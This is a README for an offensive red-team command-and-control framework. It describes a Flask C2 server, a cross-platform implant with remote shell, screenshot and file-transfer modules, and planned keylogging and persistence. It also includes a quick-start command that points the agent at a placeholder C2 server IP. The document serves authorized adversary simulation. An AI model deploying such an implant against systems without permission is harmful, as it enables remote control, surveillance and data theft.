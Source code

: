 # RedTeam Adversary Simulation Framework

A modular, Python-based Red Team adversary simulation framework for offensive security and red teaming exercises.

**DISCLAIMER**: This framework is for educational and authorized penetration testing purposes only. Use only on systems you own or have explicit permission to test. Unauthorized use is illegal and unethical.

##  Features

- **Modular Command & Control (C2) server** - Flask-based web interface
- **Cross-platform Python agent** - Works on Windows, Linux, and macOS
- **Secure communication** - HTTP/HTTPS support with encryption capabilities
- **Modular attack techniques** - Shell execution, screenshot capture, file transfer
- **MITRE ATT&CK mapping** - Techniques mapped to MITRE framework
- **Easy to extend** - Simple module system for adding new capabilities
- **Interactive C2 controller** - Command-line interface for operator interaction

##  Project Structure

```
advance_redteam_framework/
├── README.md                    # This file
├── requirements.txt             # Python dependencies
├── mitre_mapping.md            # MITRE ATT&CK technique mapping
├── c2/                         # Command & Control server
│   ├── server.py              # Main C2 server (Flask app)
│   └── modules/               # Attack modules
│       ├── __init__.py
│       ├── screenshot.py      # Screenshot capture
│       └── shell.py           # Remote shell execution
├── agent/                     # Agent/Implant
│   └── agent.py              # Main agent code
├── utils/                     # Utilities
│   └── comms.py              # Communication utilities
├── test_c2.py                # C2 testing script
└── c2_controller.py          # Interactive C2 controller
```

## Quick Start

1. **Clone the repository:**
   ```bash
   git clone https://github.com/yourusername/redteam-framework.git
   cd redteam-framework
   ```

2. **Install dependencies:**
   ```bash
   pip install -r requirements.txt
   ```

3. **Start the C2 server:**
   ```bash
   python c2/server.py
   ```

4. **Run the agent on a test machine:**
   ```bash
   python agent/agent.py --server https://<C2_SERVER_IP>:5000
   ```

5. **Add your own modules in `c2/modules/` and integrate with the C2!**

## Example Modules

- Remote shell execution
- Screenshot capture
- File upload/download
- Keylogging (to be added)
- Persistence (to be added)

## Legal Notice

For educational, ethical, and authorized Red Team use only. Do **not** deploy on systems you do not own or have explicit permission to test!

## MITRE ATT&CK Mapping

See `mitre_mapping.md` for coverage.

---

Happy hacking!
